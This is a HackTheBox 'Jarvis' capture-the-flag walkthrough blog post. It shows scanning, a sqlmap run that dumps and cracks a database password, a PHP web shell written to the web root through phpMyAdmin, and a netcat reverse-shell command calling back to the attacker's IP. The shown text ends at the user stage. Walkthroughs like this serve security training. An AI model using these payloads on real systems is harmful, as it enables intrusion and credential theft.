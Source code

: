 ```yaml
---
layout: post
title: Jarvis - Hackthebox
date: 2019-11-10
Author: Dark0
tags: [sample, document]
toc: 
pinned: true
---
```


# Hackthebox - Jarvis | Walkthrough

#### Hello guys! Welcome to yet another from hackthebox walkthrough. The new box retired is Jarvis, so we'll solve it. Jarvis is a box classified at a medium level. With Jarvis we learn some skills related to the sqli and binary setuid exploit. Ok, let's go

## Penetration Methodologies

* **Scanning**

   + _nmap_
       
* **Enumeration**

   + _Browsing HTTP server_
   + _Directory Scanning using dirb_
   + _Getting creds with SQLi_

* **Exploitation**

  * **User**

   + _shell phpmyadmin_
   + _Command injection_

  * **Root**
   
   + _SETUID binarie_   
_____________________________________________________________________________________________________________________________

## Scanning

#### To start I just did it first scan with the nmap, we found two ports, 22 to ssh, and 80 to web service. Good, here we go

```
┌─[root@parrot]─[~]
└──╼ #nmap -T4 -A jarvis.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-10 02:19 -03
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

```
______________________________________________________________________________________________________________________________

## Enumeration

#### Good, port 80 we get it web page, looks like a page of the hotel, maybe if we'll browse in the page we'll find something interesting

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2003-15-33.png)

#### with a little search in the page, I found a suspect link and decided to try to force SQL with a single quote and received a weird result...

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/quartos.png)


#### I've used the dirb to enumerate directories, but dirbuster and gobuster would work too. We see that the dirb found some pages, that's good. But the page what we interested to is `/phpmyadmin`

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2002-19-10.png)

#### I used the sqlmap to dump the users and passwords hashes, the `--passwords` flag is for that

``sqlmap -u http://jarvis.htb/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.87 Safari/537.36" --passwords``

```
[04:27:04] [INFO] fetching database users password hashes
[04:27:04] [INFO] fetching database users
[04:27:04] [INFO] fetching number of database users
[04:27:04] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:27:04] [INFO] retrieved: 1
[04:27:05] [INFO] retrieved: 'DBadmin'@'localhost'
[04:27:26] [INFO] fetching number of password hashes for user 'DBadmin'
[04:27:26] [INFO] retrieved: 1
[04:27:27] [INFO] fetching password hashes for user 'DBadmin'
[04:27:27] [INFO] retrieved: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[04:33:12] [INFO] writing hashes to a temporary file '/tmp/sqlmapNCB3gB4320/sqlmaphashes-u13BSC.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[04:33:16] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[04:33:19] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[04:33:22] [INFO] starting dictionary-based cracking (mysql_passwd)
[04:33:22] [INFO] starting 4 processes 
[04:33:25] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                                             
database management system users password hashes:                                                                                                                                            
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```

#### User and password found: (DBadmin: imissyou), Let's try login in PHPMyAdmin

______________________________________________________________________________________________________________________________

## EXPLOITATION

### USER

#### We've access to the PHPMyAdmin. Now, we'll put a shell in server to get RCE. To that, we should go to "New" and after "SQL"

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/phpmyadmin.png)

#### This code will create one archive with the name "shell.php" inside the directory "/var/www/html"
#### ``SELECT "<?php system($_GET['Dark0']); ?>" into outfile "/var/www/html/shell.php"``   
   
![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2005-04-04.png)  

#### we've got RCE. but, we can get shell with netcat. Our parameter is "Dark0" after the equal, we can writing commands. 

``nc -e /bin/bash 10.10.14.50 1337`` and your terminal ``nc -nlvp 1337``

![]() 

